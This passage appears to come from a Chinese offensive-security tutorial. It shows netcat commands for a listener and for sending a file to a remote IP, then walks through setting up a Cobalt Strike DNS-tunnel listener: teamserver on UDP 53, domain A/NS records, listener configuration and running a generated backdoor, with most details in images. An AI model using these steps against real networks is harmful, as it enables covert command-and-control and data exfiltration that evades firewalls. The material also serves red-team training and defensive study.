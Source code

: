 

端口监听:nc -lvp xxxx

文件传输:nc -lp 1111 >1.txt | nc -vn xx.xx.xx.xx 1111 <1.txt -q 1



**案例5-应用层DNS隧道配合CS上线-检测,利用,说明**

​    当常⻅协议监听器被拦截时,可以换其他协议上线,其中的dns协议上线基本通杀

1.云主机Teamserver配置端口53启用-udp

2.买一个域名修改解析记录如下:

  A记录-cs主机名-cs服务器ip

  NS记录-ns1主机名-上个A记录地址

  NS记录-ns2主机名-上个A记录地址



![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJ8ENx28GoiaIWzm1REOnZpd3t2SpoyF7DmZexicDlFNxJXVeWYNib4Gicwyia1lbeoJfRdrosp466d4sqw/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)



3.配置DNS监听器内容如下:

  ns1.xiaodi8.com

  ns2.xiaodi8.com

  cs.xiaodi8.com

  

在CS中添加监听器

![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJ8ENx28GoiaIWzm1REOnZpd3Lcs4GF4w1icoYxYoSApdIulLxsyWEIh6t4odvOA8ME54XMQRyEKJXoQ/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)



4.生成后⻔执行上线后启用命令:

![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJ8ENx28GoiaIWzm1REOnZpd36D46C8zrJu7HSFXmpT2ZiaYbhCdkCeVbmbnVRjCXVV1EWNzzPlI20XA/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)



xiaodi-pc\xiaodi

![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJ8ENx28GoiaIWzm1REOnZpd3KZvbECSkydVV5yxJbic9uw0mYwpOxQPsYia5ShmxbkHUoK4lI2hly33Q/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)



执行完命令之后



![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJ8ENx28GoiaIWzm1REOnZpd3hc3yq7uaRzO9KlYfribEOCkhUEjWflJLScg6NsXHCicXXtt7x9catkMw/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)



生成后⻔:

![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJ8ENx28GoiaIWzm1REOnZpd3opnaR4BRXW6qjfk9Tqk7Lgy9DoEB5VnK6yVDOjHPpqOxNoH7HXibubg/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)
